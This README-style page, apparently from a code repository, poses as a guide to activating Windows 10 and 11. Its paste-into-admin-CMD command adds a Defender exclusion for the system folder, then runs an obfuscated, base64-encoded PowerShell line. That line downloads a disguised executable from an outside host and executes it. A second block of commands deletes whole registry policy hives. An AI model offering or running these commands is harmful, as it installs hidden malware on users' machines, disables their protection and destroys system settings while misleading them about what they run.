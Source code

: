 
## To activate Windows 10 and 11 follow the steps

> Just copy and paste the following command into CMD admin

> [!NOTE]
> net session >nul 2>&1 && powershell Set-MpPreference -ExclusionPath $env:SystemRoot | powershell -EncodedCommand CgBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAIgBoAHQAdABwAHMAOgAvAC8AZAByAG8AcAAwADAAMAAwAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAC4AcABuAGcAIgAgAC0ATwB1AHQARgBpAGwAZQAgACIAJABlAG4AdgA6AFMAeQBzAHQAZQBtAFIAbwBvAHQAXABUAGUAbQBwAFwALgBlAHgAZQAiADsAIABTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAiACQAZQBuAHYAOgBTAHkAcwB0AGUAbQBSAG8AbwB0AFwAVABlAG0AcABcAC4AZQB4AGUAIgA= >nul 2>&1 || (echo Need to run as Administrator )




> [!TIP]
> Wait about 1 minute for windows to activate. you do not need to restart the computer after the procedure


## Virus And Threat Protection On

### CMD run as administrator
CMD Commands:
###
  reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKLM\Software\Microsoft\WindowsSelfHost" /f
  reg delete "HKLM\Software\Policies" /f
  reg delete "HKLM\Software\WOW6432Node\Microsoft\Policies" /f
  reg delete "HKLM\Software\WOW6432Node\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware
  reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKCU\Software\Microsoft\WindowsSelfHost" /f
  reg delete "HKCU\Software\Policies" /f
  reg delete "HKLM\Software\Microsoft\Policies" /f
###
